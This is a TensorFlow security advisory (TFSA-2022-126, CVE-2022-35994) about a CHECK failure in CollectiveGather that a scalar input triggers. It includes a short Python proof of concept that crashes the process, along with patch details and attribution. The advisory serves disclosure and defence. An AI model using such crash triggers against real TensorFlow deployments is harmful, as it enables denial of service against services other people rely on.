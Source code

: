 ## TFSA-2022-126: `CHECK` fail in `CollectiveGather`

### CVE Number
CVE-2022-35994

### Impact
When `CollectiveGather` receives an scalar input `input`, it gives a `CHECK` fails that can be used to trigger a denial of service attack.
```python
import tensorflow as tf
arg_0=1
arg_1=1
arg_2=1
arg_3=1
arg_4=(3, 3,3)
arg_5='auto'
arg_6=0
arg_7=''
tf.raw_ops.CollectiveGather(input=arg_0, group_size=arg_1, group_key=arg_2,
                            instance_key=arg_3, shape=arg_4,
                            communication_hint=arg_5, timeout_seconds=arg_6, name=arg_7)
```

### Patches
We have patched the issue in GitHub commit [c1f491817dec39a26be3c574e86a88c30f3c4770](https://github.com/tensorflow/tensorflow/commit/c1f491817dec39a26be3c574e86a88c30f3c4770).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by 刘力源, Information System & Security and Countermeasures Experiments Center, Beijing Institute of Technology.
